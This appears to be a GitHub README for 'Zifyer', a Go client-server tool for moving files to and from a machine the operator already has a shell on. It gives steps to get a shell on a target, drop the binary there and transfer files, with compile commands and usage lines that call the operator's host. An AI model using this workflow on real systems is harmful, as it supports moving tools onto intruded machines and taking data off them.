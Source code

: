 <h1>Zifyer Client-Server</h1>
This is a small tool to upload/download files from a machine while connected with a shell to it
<p>Steps:</p>
<p>1. Get a shell to the target</p>
<p>2. Run the server on your machine.</p>
<p>3. Drop the Zifyer binary to target machine.</p>
<p>4. Upload/Download files between the shells.</p>

<p>For those who are knew to this:</p>
<p>apt-get install golang</p>

<h3>Compile for windows x86/x64:</h3>
<p>GOOS=windows GOARCH=amd64 go build -o Zifyer.exe Client.go</p>
<p>GOOS=windows GOARCH=386 go build -o Zifyer.exe Client.go</p>

<h3>Compile for linux </h3>

go build Client.go


<h3>Zifyer.exe Usage:</h3>
<p>-h for help</p>
<p>-d download mode</p>
<p>-u upload mode </p>
<p>-H IP </p>
<p>-p Port </p>
<p>-f File </p>

<h4>Download to machine mode: </h4>
<p>Zifyer.exe -d -H "Remote I.P/DOMAIN" -p "Port" -f "file location example: /home/test.txt"</p>

<h4>Upload to machine mode:</h4>
<p>Zifyer.exe -u -H "I.P/DOMAIN to get file from" -p "Port" -f "file location example: /home/test.txt"</p>

<h3>Zifyer_Server Usage:</h3>
<p>-h for help</p>
<p>-H IP to host server </p>
<p>-p Port </p>
<p>dir Directory to store uploads</p>

<p>./Zifyer_Server -H "I.p to host the server" -p "Port" dir "Directory to upload the files to" 
<p>1. compile -> go build Final_Server.go</p>
<p>2. run -> ./Zifyer -H "Your I.P" -p 9000 dir uploads </p>
<p> File upload can also be made via Web, just go to your server's url and upload manually :) </p>

